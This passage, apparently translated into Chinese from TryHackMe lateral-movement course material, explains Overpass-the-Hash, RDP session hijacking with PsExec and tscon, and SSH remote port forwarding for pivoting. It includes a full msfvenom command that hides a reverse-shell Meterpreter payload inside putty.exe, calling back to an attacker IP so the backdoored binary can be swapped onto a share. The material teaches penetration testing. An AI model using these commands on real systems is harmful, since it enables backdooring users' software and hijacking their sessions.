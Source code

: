 请注意，使用 RC4 时，密钥将等于用户的 NTLM 哈希。这意味着，如果我们可以提取 NTLM 哈希，只要 RC4 是启用的协议之一，我们就可以使用它来请求 TGT。这种特殊的变体通常被称为Overpass-the-Hash（OPtH）。

---

### 后门.exe文件

如果共享文件是Windows二进制文件，例如putty.exe，则可以从共享中下载它并使用msfvenom在其中注入后门。二进制文件仍将照常工作，但以静默方式执行额外的有效负载。要创建后门腻子.exe，我们可以使用以下命令：

    msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b "\x00" -f exe -o puttyX.exe

生成的 puttyX.exe 将在用户没有注意到的情况下执行 reverse_tcp 米有效载荷。生成文件后，我们可以替换 windows 共享上的可执行文件，并使用 Metasploit 中的 exploit/multi/handler 模块等待任何连接。

### RDP 劫持

当管理员使用远程桌面连接到计算机并关闭 RDP 客户端而不是注销时，他的会话将在服务器上无限期地保持打开状态。如果您在 Windows Server 2016 及更早版本上具有 SYSTEM 权限，则可以接管任何现有的 RDP 会话，而无需密码。

如果我们具有管理员级别的访问权限，则可以通过我们喜欢的任何方法获取SYSTEM。现在，我们将使用 psexec 来执行此操作。首先，让我们以管理员身份运行一个cmd.exe：

    PsExec64.exe -s cmd.exe

若要列出服务器上的现有会话，可以使用以下命令：

    C:\> query user
    USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
    >administrator         rdp-tcp#6           2  Active          .  4/1/2022 4:09 AM
    luke                                    3  Disc            .  4/6/2022 6:51 AM

根据上面的命令输出，如果我们当前使用管理员用户通过 RDP 进行连接，我们的 SESSIONNAME 将是 .我们还可以看到，一个名为 luke 的用户使用 id 打开了一个会话。任何具有 Disc 状态的会话都已由用户保持打开状态，目前未被使用。虽然您也可以接管活动会话，但当您这样做时，合法用户将被强制退出其会话，这可能会被他们注意到。rdp-tcp#63

要连接到会话，我们将使用 tscon.exe 并指定我们将接管的会话 ID，以及我们当前的会话名称。按照前面的示例，如果我们以管理员用户身份连接，要接管 luke 的会话，我们将使用以下命令：

tscon 3 /dest:rdp-tcp#6
简单来说，该命令指出 luke 拥有的图形会话应与管理员用户拥有的 RDP 会话连接。3rdp-tcp#6

因此，我们将恢复 luke 的 RDP 会话并立即连接到它。

#### 注意：Windows Server 2019不允许您在不知道密码的情况下连接到其他用户的会话。

---

### SSH远程端口转发

在我们的示例中，假设防火墙策略阻止攻击者的计算机直接访问服务器上的端口 3389。如果攻击者之前入侵了 PC-1，反过来，PC-1 可以访问服务器的端口 3389，则可以使用它从 PC-1 进行远程端口转发来透视到端口 3389。远程端口转发允许您从 SSH 客户端（在本例中为 PC-1）获取可访问端口，并将其投影到远程 SSH 服务器（攻击者的计算机）中。

因此，攻击者的计算机中将打开一个端口，该端口可用于通过SSH隧道连接回服务器中的端口3389。反过来，PC-1 将代理连接，以便服务器将看到所有流量，就好像它来自 PC-1 一样：

<img src='https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/49401a0687c38a1ce78fdd5852aca5a7.png' />

此时可能弹出的一个有效问题是，如果我们破坏了PC-1并且可以直接从那里运行RDP会话，为什么我们需要端口转发。答案很简单：在我们只能对 PC-1 进行控制台访问的情况下，我们将无法使用任何 RDP 客户端，因为我们没有 GUI。通过使端口可供攻击者的计算机使用，您可以使用 Linux RDP 客户端进行连接。当您想要对无法直接访问的端口运行漏洞利用时，会出现类似的情况，因为您的漏洞利用可能需要特定的脚本语言，而该语言可能并不总是在您在此过程中入侵的计算机上可用。
